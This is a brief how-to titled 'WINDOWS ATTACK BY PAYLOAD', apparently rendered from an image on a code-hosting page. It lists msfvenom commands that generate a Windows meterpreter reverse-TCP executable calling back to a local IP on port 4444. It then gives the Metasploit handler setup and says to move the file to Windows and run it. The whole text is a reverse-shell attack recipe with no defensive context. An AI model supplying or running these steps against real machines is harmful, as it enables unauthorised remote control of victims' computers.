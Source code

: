WINDOWS ATTACK BY PAYLOAD

#msfvenom -p windows/meterpreter/reverse_tcp LHOST 192.168.1.152 LPORT=4444 -f exe > shell.exe

* Move this file to windows

#msfconsole
#use multi/handler
#set payload windows/meterpreter/reverse_tcp
#set LHOST 192.168.1.152
#set LPORT 4444
#exploit

* Run the exe on windows	
